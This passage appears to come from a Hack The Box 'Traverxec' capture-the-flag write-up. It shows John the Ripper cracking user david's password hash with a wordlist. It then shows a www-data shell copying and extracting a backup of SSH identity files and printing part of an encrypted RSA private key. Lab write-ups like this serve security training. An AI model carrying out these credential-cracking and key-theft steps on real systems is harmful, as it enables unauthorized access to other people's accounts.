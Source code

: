 ## John The Ripper :

```markdown
root@Kali:~/HTB/Traverxec# echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > hash.txt
root@Kali:~/HTB/Traverxec# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:07:18 DONE (2020-04-11 12:40) 0.002279g/s 24118p/s 24118c/s 24118C/s Noyoudo..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Getting David SSH key :

![alt text](01.png "Traverxec")


```console

www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls -la
ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25 15:45 .
drwx--x--x 5 david david 4096 Oct 25 17:02 ..
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area
www-data@traverxec:/home/david/public_www$ cd protected-file-area
cd protected-file-area
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
ls
backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www/protected-file-area$ cd /tmp                                
cd /tmp
www-data@traverxec:/tmp$ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz .
<protected-file-area/backup-ssh-identity-files.tgz .
www-data@traverxec:/tmp$ tar xzvf backup-ssh-identity-files.tgz                             
tar xzvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
www-data@traverxec:/tmp$ cat home/david/.ssh/id_rsa
cat home/david/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
```

[logo]: Traverxec.jpg